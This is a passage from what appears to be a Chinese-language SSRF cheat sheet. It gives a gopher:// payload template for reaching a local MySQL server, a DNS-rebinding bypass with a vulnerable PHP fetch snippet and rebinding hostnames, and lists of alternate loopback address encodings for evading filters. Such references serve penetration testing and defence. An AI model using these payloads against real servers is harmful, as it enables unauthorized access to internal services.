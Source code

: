 ### MySQL (MySQL)
- 無密碼認證可以SSRF
- MySQL Client與Server交互主要分兩階段
    - Connection Phase
    - Command Phase
- `gopher://127.0.0.1:3306/_<PAYLOAD>`
- Tool: https://github.com/undefinedd/extract0r-




# Bypass
## DNS
### DNS Rebinding
- TTL 設很小
- 第二次解析的時候給他內網 ip
```
if(validate_domain($domain)){
    file_get_contents($domain);
}
```
```
A.54.87.54.87.1time.127.0.0.1.forever.rebind.network
36573657.7f000001.rbndr.us
```

## URL
### 127.0.0.1
```
127.0.0.1
localhost
127.0.1
127.1
0.0.0.0
0.0
0
```

### IPv6
```
::1
::127.0.0.1
::ffff:127.0.0.1
::1%1
[::]
ip6-localhost
```

### 不同進位
```
2130706433 (decimal)
0x7f000001
017700000001
0x7f.0x0.0x0.0x1
0177.0.0.1
0177.01.01.01
0x7f.1
```

